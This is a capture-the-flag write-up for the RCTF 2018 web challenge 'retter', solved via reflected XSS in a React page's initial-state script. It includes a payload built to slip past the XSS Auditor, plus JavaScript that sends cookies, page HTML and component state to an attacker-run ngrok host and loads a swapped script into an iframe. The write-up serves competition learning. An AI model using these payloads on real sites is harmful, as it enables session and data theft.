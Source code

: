 ```yaml
---
title: retter - RCTF 2018
layout: post
date: '2018-05-22 00:00:00'
---
```


> To Major Gilbert
>
> http://retter.2018.teamrois.cn
>
> hint: React

*869 points, 4 Solves, web*

We are taken to a page where we can fill out a form to write a letter and submit it as a draft and then let the person know:

![letter](/assets/rctf18/letter.jpg)

Clicking the button doesn't actually do anything though as no network requests happen. Looking at the page (and the hint) it has been build with React.

When we create the draft, JSON data is posted so I started to see if I could inject a component like in [this hackerone report](https://hackerone.com/reports/49652), and although the server would accept and return arbitrary JSON data, unfortuanatly that has been fixed since React 0.14 and objects now have to be tagged with a Symbol.

Looking at how the page is loaded, it looks like they are using async components so the javascript is only loaded when the component is rendered based on `manifest_358a7dd69b204a527a05.js`. There three files in there, but one of them `flag_bb5521739f36ab3d42a2.js` returns a 403! Perhaps only the admin can load this file.

After playing around a bit more I found that the 404 page is very interesting:

![letter](/assets/rctf18/404.jpg)

This time the button does actually do something (after we solve the captcha) so we have found a way to send a page to the admin! Also looking at the source for this page (0_e80547cfeeeba23b5136.js) reveals some new info:

```javascript
function() {
  return m.default.createElement(v.default, {
      loading: this.state.loading,
      title: "Not Found"
  }, m.default.createElement("div", null, m.default.createElement("p", null, "404 Not Found!"), m.default.createElement("p", null, "Please contact admin for help!")), m.default.createElement("div", {
      style: {
          display: "none"
      }
  }, m.default.createElement("p", null, "Congrats, you found this hint!")), window && "admin.retter.2018.teamrois.cn" === window.location.hostname ? m.default.createElement(g.Flag, null) : m.default.createElement("div", {
      style: {
          textAlign: "center"
      }
  }, m.default.createElement("p", null, "Report this page to administrator"), m.default.createElement("p", null, this.state.captcha), m.default.createElement("p", null, m.default.createElement(b.default, {
      label: "Captcha",
      onChange: this.handleChange("input"),
      value: this.state.input
  })), m.default.createElement(_.default, {
      variant: "raised",
      color: "primary",
      onClick: this.postToServer
  }, "Report")))
}
```

So due to **admin.retter.2018.teamrois.cn" === window.location.hostname ? m.default.createElement(g.Flag, null)** it looks like the flag component will be rendered when the admin views this page. As we have no way to access the flag components source we will have to try and steal it from the admin, time to look for a way to inject code.

Looking at the source again shows that the `__INITIAL_STATE__` is being set by the following:

```html
<script>window.__INITIAL_STATE__ = {"router":{"location":{"pathname":"/1234","search":"","hash":"","key":"n1vbjt"}}}</script>
```

It is correctly encoding all javasscript/json but not html! We can just close the script tag and open a new one by putting our payload in the path:
![letter](/assets/rctf18/inject.jpg)

But a problem, it is being blocked by the XSS Auditor. I tried submitting a few payloads anyway on the off chance that they were using firefox, but they never made it through. I then found that if you included a payload like **<script>something</script>** then it would be completely removed by the server. Using this I could build up a payload that would pass the XSS Auditor after the extra script tags had been removed. I came up with `/123</scr<script></script>ipt><scr<script></script>ipt%20s<script></script>rc=//my.server/payload.js>//`

![letter](/assets/rctf18/xss.jpg)

So I could finally inject my script into the page, time to steal some cookies! But alas it wasn't that easy, the cookie was:

`flag=fake_flag{NO_HENTAI_DONT_TOUCH_ME_I_AM_NOT_FLAG}`

As the flag component was being rendered, what about looking at the dom?

```javascript
window.onload = function() {
	fetch("https://019f53ad.ngrok.io/log", { headers: { log: document.cookie } })
	fetch("https://019f53ad.ngrok.io/log", { headers: { log: document.body.innerHTML } })
}
```

We are getting closer, that showed what the flag component had rendered: `<flag style="display: none;">fake_flag{flag_is_in_my_component_but_not_in_html}</flag>`. So it seems we need to somehow access the state of the react component. After some reading I found that this could be done vie [React.createRef](https://reactjs.org/docs/refs-and-the-dom.html#creating-refs), so if I could edit the javascript to add that to the flag component it could be used to access the state.

I ended up creating a new iframe that was exactly the same as the parent page, but with the manifest pointing to me:

```javascript
var iframe = document.createElement('iframe');
var html = `
<!DOCTYPE html><html data-reactroot=""><head><meta charSet="utf-8"/><title>💥</title><link rel="stylesheet" href="http://cdn.retter.2018.teamrois.cn/app.css" type="text/css"/></head><body><script>window.__INITIAL_STATE__ = {"router":{"location":{"pathname":"/123","search":"","hash":"","key":"onhm1r"}}}</script><div id="root"><div class="App_app_3VguN" data-reactroot=""><div style="width:100%"><div class="Page_paper_1hfXy"><div class="Page_post-content_1XWEr" style="opacity:1"><div><h2>Not Found</h2></div><div><p>404 Not Found!</p><p>Please contact admin for help!</p></div><div style="display:none"><p>Congrats, you found this hint!</p></div><div style="text-align:center"><p>Report this page to administrator</p><p>Getting captcha...</p><p><div class="jss5"><label class="jss14 jss9 jss10 jss13" data-shrink="false">Captcha</label><div class="jss19 jss20 jss23"><input type="text" aria-invalid="false" aria-required="false" class="jss27" value=""/></div></div></p><button tabindex="0" class="jss50 jss35 jss40 jss41" type="button"><span class="jss36">Report</span><span class="jss52"></span></button></div></div><div style="display:none" class="Page_loading_2skAc"><div class="jss59 jss60" style="width:100px;height:100px;opacity:0;will-change:opacity;transition-delay:800ms" role="progressbar"><svg class="jss62 jss63" viewBox="0 0 50 50"><circle class="jss64 jss65" cx="25" cy="25" r="20" fill="none" stroke-width="3.6"></circle></svg></div></div></div></div></div></div>
<script src="http://10640bad.ngrok.io/src/manifest_358a7dd69b204a527a05.js?v2"></script><script src="http://cdn.retter.2018.teamrois.cn/vendor_a4401220f857f9539834.js"></script><script src="http://cdn.retter.2018.teamrois.cn/app_73045edf060acecbcc23.js"></script></body></html>`;
document.body.appendChild(iframe);
iframe.contentWindow.document.open();
iframe.contentWindow.document.write(html);
iframe.contentWindow.document.close();
```

This let me send down a modified **0_e80547cfeeeba23b5136.js** file with a **createRef** added to the flag component stored on the window:

```javascript
window.flagRef = m.default.createRef();
// <SNIP>
m.default.createElement(g.Flag, {ref: window.flagRef})
```

Now lets log the state:

```javascript
fetch("http://019f53ad.ngrok.io/log", { headers: { log: Object.keys(iframe.contentWindow.flagRef.current.state) } })* 
```

This returned a single key `Component`, which when sent back reveals the final flag!

```javascript
function t(){var e,n,r;o(this,t);for(var u=arguments.length,i=new Array(u),f=0;f<u;f++)i[f]=arguments[f];return a(r,(n=r=a(this,(e=l(t)).call.apply(e,[this].concat(i))),s(p(p(r)),"state",{flag:"RCTF{reAct_dev_t0ol_1s_4_w4y_to_rEad_st4te}"}),n))}
```


`RCTF{reAct_dev_t0ol_1s_4_w4y_to_rEad_st4te}`

&nbsp;

<hr>

Final injected payload was:
```javascript
var iframe = document.createElement('iframe');
var html = `
<!DOCTYPE html><html data-reactroot=""><head><meta charSet="utf-8"/><title>💥</title><link rel="stylesheet" href="http://cdn.retter.2018.teamrois.cn/app.css" type="text/css"/></head><body><script>window.__INITIAL_STATE__ = {"router":{"location":{"pathname":"/123","search":"","hash":"","key":"onhm1r"}}}</script><div id="root"><div class="App_app_3VguN" data-reactroot=""><div style="width:100%"><div class="Page_paper_1hfXy"><div class="Page_post-content_1XWEr" style="opacity:1"><div><h2>Not Found</h2></div><div><p>404 Not Found!</p><p>Please contact admin for help!</p></div><div style="display:none"><p>Congrats, you found this hint!</p></div><div style="text-align:center"><p>Report this page to administrator</p><p>Getting captcha...</p><p><div class="jss5"><label class="jss14 jss9 jss10 jss13" data-shrink="false">Captcha</label><div class="jss19 jss20 jss23"><input type="text" aria-invalid="false" aria-required="false" class="jss27" value=""/></div></div></p><button tabindex="0" class="jss50 jss35 jss40 jss41" type="button"><span class="jss36">Report</span><span class="jss52"></span></button></div></div><div style="display:none" class="Page_loading_2skAc"><div class="jss59 jss60" style="width:100px;height:100px;opacity:0;will-change:opacity;transition-delay:800ms" role="progressbar"><svg class="jss62 jss63" viewBox="0 0 50 50"><circle class="jss64 jss65" cx="25" cy="25" r="20" fill="none" stroke-width="3.6"></circle></svg></div></div></div></div></div></div>
<script src="http://019f53ad.ngrok.io/src/manifest_358a7dd69b204a527a05.js?v2"></script><script src="http://cdn.retter.2018.teamrois.cn/vendor_a4401220f857f9539834.js"></script><script src="http://cdn.retter.2018.teamrois.cn/app_73045edf060acecbcc23.js"></script></body></html>`;
document.body.appendChild(iframe);
iframe.contentWindow.document.open();
iframe.contentWindow.document.write(html);
iframe.contentWindow.document.close();

iframe.onload = function() {
	fetch("http://019f53ad.ngrok.io/log", { headers: { log: iframe.contentWindow.flagRef.current.state.Component } })
}
```
